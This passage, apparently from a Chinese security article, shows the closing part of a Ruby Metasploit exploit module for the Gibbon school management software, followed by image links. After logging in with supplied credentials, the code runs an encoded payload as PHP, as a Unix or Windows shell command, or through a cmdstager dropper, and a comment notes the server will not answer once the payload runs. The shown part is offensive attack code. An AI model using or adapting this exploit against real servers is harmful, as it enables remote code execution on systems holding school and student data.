 ```
    res = gibbon_login
    fail_with(Failure::NoAccess, "Login failed with user #{datastore['USERNAME']} and password #{datastore['PASSWORD']}.") unless res && res.code == 302
 
    case target['Type']
    when :php
      execute_php(payload.encoded)
    when :unix_cmd, :windows_cmd
      execute_command(payload.encoded)
    when :linux_dropper, :windows_dropper
      # don't check the response here since the server won't respond
      # if the payload is successfully executed.
      execute_cmdstager({ linemax: target.opts['Linemax'] })
    end
  end
end
```  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9eVcaiaJyjJXv0Zu28Ba9ab7kS2G7RhgZXudEm4dWXiaYDdViaRXBAoDgDYlMhpcUHSdxQbdJBLsPGYvEbe22fpxA/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9eVcaiaJyjJUH41ow46vKhge3WzNajaArNT83xSnTuhw1XLjkeYIuIQ8041dMaD2IsPFhtVfNNYia3bQWbxxuVbA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
  
